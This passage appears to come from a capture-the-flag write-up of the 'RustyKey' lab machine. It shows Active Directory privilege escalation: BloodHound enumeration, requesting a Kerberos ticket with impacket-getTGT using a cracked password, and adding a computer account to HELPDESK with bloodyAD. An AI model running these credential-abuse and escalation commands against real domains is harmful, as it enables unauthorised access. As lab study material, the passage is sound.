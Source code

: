 Match the cracked hash with the original `timeroast.py` output and the RID is `1125`

Search for RID `1125` in BloodHound:

![](https://github.com/user-attachments/assets/82ffc2d9-d1d1-4c67-af5f-b2ce6e9623a8)

The computer account `IT-COMPUTER3` has `AddSelf` permission to `HELPDESK`:

![](https://github.com/user-attachments/assets/50e6e082-f72e-45ca-bf8f-8db7f18f7bc7)

![](https://github.com/user-attachments/assets/26a6e5e8-b3bd-4dcf-be6f-f9478a2e158a)

`HELPDESK` has outbound control to several objects:

![](https://github.com/user-attachments/assets/22612c40-bece-4446-9b45-f6e0a9fd0ab2)

ForceChangePassword:

![](https://github.com/user-attachments/assets/7ebe2ec6-9d0f-4745-9f8f-03218f959e83)

GenericWrite:

![](https://github.com/user-attachments/assets/475f647e-3604-430f-8f3d-d9a6d350f759)

AddMember:

![](https://github.com/user-attachments/assets/753c1e34-3c8f-476c-8457-46a77eb60e41)

### 3.2. Get TGT for `IT-COMPUTER3`

```console
root@kali:~# impacket-getTGT rustykey.htb/IT-COMPUTER3:'Rusty88!' -dc-ip dc.rustykey.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in IT-COMPUTER3.ccache

root@kali:~# export KRB5CCNAME=IT-COMPUTER3.ccache
```

### 3.3. Add `IT-COMPUTER3` to `HELPDESK` group

> [!Tip]
>
> bloodyAD is used to perform specific LDAP calls to a domain controller for AD privesc
> 
> It supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc
>
> Install bloodyAD in Kali with `apt -y install bloodyad`

```console
root@kali:~# bloodyAD -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' add groupMember HELPDESK 'IT-COMPUTER3$'
[+] IT-COMPUTER3$ added to HELPDESK
```
